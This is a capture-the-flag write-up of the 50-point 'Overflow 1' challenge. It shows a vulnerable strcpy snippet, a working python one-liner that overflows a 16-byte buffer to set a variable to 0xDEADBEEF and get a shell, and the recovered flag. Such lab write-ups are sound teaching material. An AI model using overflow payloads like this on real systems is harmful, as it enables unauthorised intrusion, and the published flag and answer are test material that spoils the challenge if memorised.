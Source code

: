 ### Solved by z0rex

"Overflow 1" was a binary challenge worth 50 points.

> This program is vulnerable to a buffer overflow! Can you exploit it to run a
> shell and get the flag? You can solve this problem on our shell server at 
> `/problems/overflow1`, and the binary and source are provided. 

I started off by checking how the program worked by running it like a normal user would.

```
team24254@shell:/problems/overflow1$ ./overflow1
Usage: overflow1 [str]
team24254@shell:/problems/overflow1$ ./overflow1 a
Sorry, secret = 0x00000000
```

We're also given the source code, and it's not hard to see what we're supposed to do. We need to overwrite the value of `secret` with `0xDEADBEEF`

```c
.
.
.
char buf[16];
int secret = 0;
strcpy(buf, input);

if (secret == 0xDEADBEEF)
{
    give_shell();
}
.
.
.
```

The buffer is expecting 16 bytes. Anything over that will start to write outside of `buf`.

So to exploit this we just pass 16 bytes of garbage, then `\xef\xbe\xad\xde`.

```
team24254@shell:/problems/overflow1$ ./overflow1 `python -c 'print "A"*16 + "\xef\xbe\xad\xde"'`
$ cat flag.txt
overflow_underflow_youreaflow_imaflow
```

Flag: `overflow_underflow_youreaflow_imaflow`